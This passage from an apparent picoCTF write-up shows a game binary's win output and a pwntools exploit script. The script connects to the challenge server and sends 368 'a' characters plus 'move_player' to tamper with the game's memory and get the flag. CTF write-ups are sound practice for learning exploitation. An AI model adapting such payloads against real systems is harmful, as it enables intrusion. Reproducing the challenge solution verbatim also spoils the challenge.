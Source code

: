 ```
Player position: 29 89
Player has flag: 46
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
.........................................................................................@
You win!
flage
flag.txt not found in current directory
```

Then I determined to create an exploit script using `pwntools`. I first made sure it worked on the local binary, then I gave it the ability to make a remote connection to the online instance.

```python
#!/usr/bin/python3

from pwn import *

host = 'saturn.picoctf.net'
port = 63984

#context.log_level = 'DEBUG'

#io = process('./game')
io = remote(host, port)

payload = "a" * 368
payload += "move_player"

io.sendline(payload)
print(io.recvline())

io.interactive()
```
